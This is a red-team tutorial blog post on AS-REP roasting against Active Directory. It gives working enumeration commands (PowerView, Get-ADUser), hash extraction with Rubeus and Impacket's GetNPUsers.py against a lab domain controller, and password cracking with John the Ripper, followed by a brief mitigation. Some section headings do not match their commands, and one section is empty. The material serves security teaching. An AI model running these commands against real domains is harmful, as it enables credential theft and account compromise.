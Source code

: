 ```yaml
---
title:  "Kerberos attacks 2-AS-REP Roasting "
classes: wide
header:
  teaser: /img/redteampng.png
ribbon: red
description: "Kerberos attacks 2-AS-REP Roasting"
categories:
  - Red-Teaming
toc: true
---
```


## AS-REP roasting 
 * If an Active Directory user has pre-authentication disabled, a vulnerability is exposed which can allow an attacker to perform an offline bruteforce attack against that user’s password.
 * This attack is commonly known as AS-REP Roasting in reference to Authentication Service Requests, a part of the process of authentication with Kerberos.
 * An attacker who is able to find a user with pre-authentication disabled can request an AS-REP ticket for that user and this will contain data encrypted with the user’s password.

<img src="/img/asrep/1.PNG" alt="Getting-gz" width="600" height="200"> 

## AS-REP roasting attack consists of the following steps:
 * 1-Obtain access to a domain as an authenticated user.
 * 2-Use an LDAP filter or tools like PowerView’s Get-DomainUser feature to crawl the domain and identify user accounts with the Do not require Kerberos preauthentication  Property  enabled.
 * 3-Identify target account or accounts.
 * 4-Request a Kerberos  (TGT) from the KDC in the name of a target account. The KDC will respond with the TGT for the account, without requiring the account password as a pre-authentication.
 * 5-Using a tool like Wireshark, extract the user’s password hash from the AS-REP packet. It can be found in the enc-part section of the packet.
 * 6-Use a tool like HashCat or John the Ripper to extract a plaintext password from the captured hash.

## Terminology
```
KDC: Key Distribution Center # The trusted 3rd party / the Domain Controller
TGS: Ticket Granting Server  # A subset function of the KDC which issues service tickets
TGT: Ticket Granting Ticket  # A userbased ticket used to authenticate to the KDC
ST: Service Ticket           # Used to authenticate against services
SPN: Service Principal Name  #The name of a service on the network
```


##  enumerate User account with "Do not require pre-authentication"
```
Import-Module .\Microsoft.ActiveDirectory.Management.dll
Get-ADUser -Filter 'useraccountcontrol -band 4194304' -Properties useraccountcontrol | Format-Table name
```

<img src="/img/asrep/enum.PNG" alt="Getting-gz" width="1000" height="200"> 

```
Import-Module .\powerview.ps1
Get-DomainUser -PreauthNotRequired -verbose| select name
```

<img src="/img/asrep/enum1.PNG" alt="Getting-gz" width="1000" height="200"> 

## ASREP Roasting with Impacket

```
Rubeus.exe asreproast
```

<img src="/img/asrep/rubeus.PNG" alt="Getting-gz" width="1000" height="200"> 

saved the extracted hash in the john crackable format inside a text file
```
Rubeus.exe asreproast /format:john /outfile:hash.txt
```

<img src="/img/asrep/save.PNG" alt="Getting-gz" width="1000" height="200"> 

## ASREP Roasting with ASREPRoast PowerShell Script




## ASREP Roasting with  GetUserSPNs.py

```
Import-Module .\powerview.ps1
Get-DomainUser | select name
```
<img src="/img/asrep/users.PNG" alt="Getting-gz" width="1000" height="200"> 

<img src="/img/asrep/users1.PNG" alt="Getting-gz" width="1000" height="200"> 
 
```
python3 GetNPUsers.py karim.net/ -usersfile  users.txt -dc-ip 192.168.128.140
```

<img src="/img/asrep/users10.PNG" alt="Getting-gz" width="1000" height="200"> 

```
python3 GetNPUsers.py karim.net/asrepuser -dc-ip 192.168.128.140
```

<img src="/img/asrep/kali.PNG" alt="Getting-gz" width="1000" height="200"> 
 
## crack hash with john
 
 ```
john tgt.txt -w=/usr/share/wordlists/rockyou.txt
```

<img src="/img/asrep/crack.PNG" alt="Getting-gz" width="1000" height="200"> 

## AS-REP roasting Mitigation
* ensure that no users within the Active Directory domain have Pre-authentication disabled (it is enabled by default).

I finished part 2 in Kerberos attacks today waite me in the next part.


